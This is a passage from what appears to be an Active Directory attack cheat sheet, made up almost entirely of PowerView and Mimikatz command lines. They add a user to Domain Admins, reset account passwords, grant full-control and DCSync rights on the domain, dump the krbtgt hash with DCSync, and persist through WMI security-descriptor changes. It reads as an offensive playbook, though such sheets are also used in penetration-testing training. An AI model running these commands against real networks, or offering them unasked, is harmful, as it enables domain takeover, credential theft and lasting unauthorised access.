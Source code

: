or

```
Net group "domain admins" sportless /add /domain
```

#### Abuse resetpassword using powerview_dev
```
Set-DomainUserPassword -Identity <USERNAME> -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force ) -Verbose
```

### DCsync
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync

#### Add Full-control rights
```
Add-DomainObjectAcl -TargetIdentity "dc=<DOMAIN>,dc=<TOP DOMAIN>" -PrincipalIdentity <USER> -Rights All -PrincipalDomain <DOMAIN< -TargetDomain <DOMAIN> -Verbose
```

#### Add rights for DCsync
```
Add-DomainObjectAcl -TargetIdentity "dc=<DOMAIN>,dc=<TOP DOMAIN>" -PrincipalIdentity studentuser1 -Rights DCSync -PrincipalDomain <FQDN DOMAIN> -TargetDomain <FQDN DOMAIN> -Verbose 
```

#### Execute DCSync and dump krbtgt
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```

### SecurityDescriptor - WMI
```
. ./Set-RemoteWMI.ps1
```

#### On a local machine
```
Set-RemoteWMI -Username <USERNAME> -Verbose
```

#### On a remote machine without explicit credentials
```
Set-RemoteWMI -Username <username> -Computername <COMPUTERNAME> -namespace ‘root\cimv2’ -Verbose
```

#### On a remote machine with explicit credentials
- Only root/cimv and nested namespaces
```
Set-RemoteWMI -Username <username> -Computername <COMPUTERNAME> -Credential Administrator -namespace ‘root\cimv2’ -Verbose
```
